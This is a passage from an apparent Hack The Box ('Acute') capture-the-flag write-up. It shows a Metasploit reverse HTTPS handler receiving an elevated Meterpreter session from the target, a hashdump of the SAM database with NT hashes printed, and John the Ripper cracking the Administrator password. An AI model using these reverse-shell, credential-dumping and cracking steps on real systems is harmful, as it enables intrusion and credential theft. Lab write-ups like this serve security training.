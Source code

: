 Now, we can check if we were added to the **Aministrators** group.

![image-center](/images/htb/htb_acute_admin_2.png){: .align-center}

Nice! However, for the *Administrator* permission to take effect, you will need to logoff and log back in as **edavis**. Then, we can re-execute our Metrerpreter payload to get an elevated shell.

```bash
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://10.10.14.10:443
[!] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: cowqsnxo) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: cowqsnxo) Staging x64 payload (201820 bytes) ...
[!] https://10.10.14.10:443 handling request from 10.129.136.40; (UUID: cowqsnxo) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 2 opened (10.10.14.10:443 -> 10.129.136.40:49888) at 2023-05-03 09:54:31 -0400
```

# Privilege Escalation

Now that we have an elevated shell, let's execute `hashdump` to extract the SAM database.

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Given we cannot remotely connect to the target machine, we will have to try to crack the password and see if we can compromise another account.

```bash
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (DefaultAccount)     
Password@123     (Administrator)     
2g 0:00:00:01 DONE (2023-05-03 09:59) 1.960g/s 14062Kp/s 14062Kc/s 29153KC/s  _ 09..*7¡Vamos!
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```
